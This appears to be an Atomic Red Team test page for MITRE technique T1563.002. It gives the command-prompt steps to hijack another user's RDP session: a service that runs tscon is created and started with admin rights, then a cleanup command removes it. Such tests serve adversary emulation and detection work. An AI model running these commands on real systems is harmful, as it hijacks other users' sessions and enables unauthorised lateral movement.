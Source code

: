 ```yaml
---
tags: [T1563_002, atomic_test]
filename: "[[T1563.002 - Remote Service Session Hijacking- RDP Hijacking]]"
---
```

# T1563.002 - Remote Service Session Hijacking: RDP Hijacking

## Atomic Test #1 - RDP hijacking
[RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) - how to hijack RDS and RemoteApp sessions transparently to move through an organization

**Supported Platforms:** Windows


**auto_generated_guid:** a37ac520-b911-458e-8aed-c5f1576d9f46





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Session_ID | The ID of the session to which you want to connect | string | 1337|
| Destination_ID | Connect the session of another user to a different session | string | rdp-tcp#55|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon #{Session_ID} /dest:#{Destination_ID}"
net start sesshijack
```

#### Cleanup Commands:
```cmd
sc.exe delete sesshijack >nul 2>&1
```





<br/>
